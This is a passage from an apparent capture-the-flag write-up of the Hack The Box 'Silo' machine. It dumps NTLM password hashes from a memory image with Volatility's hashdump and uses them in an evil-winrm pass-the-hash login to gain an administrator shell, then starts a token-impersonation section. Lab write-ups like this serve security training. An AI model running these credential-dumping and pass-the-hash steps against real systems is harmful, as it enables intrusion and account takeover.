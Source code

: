 ```bash
                           DTB : 0x1a7000L
                          KDBG : 0xf80078520a30L
          Number of Processors : 2
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff8007857b000L
                KPCR for CPU 1 : 0xffffd000207e8000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2018-01-05 22:18:07 UTC+0000
     Image local date and time : 2018-01-05 22:18:07 +0000
```

Here it suggests some more profiles but we know the system is `Microsoft Windows Server 2012 R2`

Now we can just dump the hash using `hashdump` plugin.

```bash
root@kali:~/CTF/HTB/Boxes/Silo# volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

And we got Administrator hash

I used the hash to login.

```bash
root@kali:~/CTF/HTB/Boxes/Silo# evil-winrm -i 10.10.10.82 -u Administrator -H 9e730375b7cbcebf74ae46481e07b0c7

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
silo\administrator
```

We own the System.

## Privilege Escalation by Token Impersonation

`whoami /all` will reveal the complete information about the user.

```bash
PS C:\Users\Phineas\Desktop> whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```